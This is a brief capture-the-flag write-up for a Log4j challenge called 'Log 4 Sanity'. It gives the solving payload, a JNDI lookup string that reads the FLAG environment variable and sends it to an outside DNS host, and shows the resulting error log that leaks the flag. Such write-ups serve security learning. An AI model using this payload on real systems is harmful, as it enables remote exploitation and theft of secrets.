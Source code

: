 # Log 4 Sanity

I've overthought this task, but in the end what worked is just:

```
${jndi:dns:kot.pl/${env:FLAG}}
```

In the error message (shown in the terminal! Ugh) we see:

```
2021-12-19 16:52:52,357 main WARN Error looking up JNDI resource [dns:kot.pl/hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.InvalidNameException: Label exceeds 63 octets: pl/hxp{
Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}; remaining name '"kot.pl/hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}"'
```